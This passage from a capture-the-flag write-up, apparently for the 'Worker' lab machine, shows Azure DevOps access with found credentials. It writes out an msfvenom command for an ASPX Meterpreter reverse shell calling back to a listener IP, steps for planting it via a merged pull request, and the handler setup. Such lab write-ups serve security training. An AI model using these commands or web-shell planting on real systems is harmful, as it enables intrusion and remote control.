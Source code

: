 This time the password is here. We can connect with those credentials to
http://devops.worker.htb/.


## Exploiting Azure DevOps

![](https://i.imgur.com/Y9qf4pD.png)

We have access to a repository http://devops.worker.htb/ekenas/SmartHotel360

Look at the different projects we have access to:

![](https://i.imgur.com/g1vieWd.png)

A lot of them are matching the sub-domains we found earlier

```
alpha.worker.htb
cartoon.worker.htb
lens.worker.htb
solid-state.worker.htb
spectral.worker.htb
story.worker.htb
```

All those domains are hosting a web application and we can control the source,
so we'll be able to upload a reverse shell to the master branch and access it
wia the web application.

First, let's generate an ASPX reverse shell:

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 --platform windows --encoder generic/none LHOST=10.10.14.174 LPORT=9999 -f aspx > noraj.aspx
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none succeeded with size 510 (iteration=0)
generic/none chosen with final size 510
Payload size: 510 bytes
Final size of aspx file: 3663 bytes
```

Here a few steps I won't details too much.

1. Select a project, eg. Alpha
2. Create a new branch
3. Upload the reverse shell to the branch (eg. in assets folder)
4. Create a PR
5. Match merge policies: approve and link a work item
6. Complete the PR (merge)

Start a listener:

```
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.174     yes       The listen address (an interface may be specified)
   LPORT     9999             yes       The listen port
```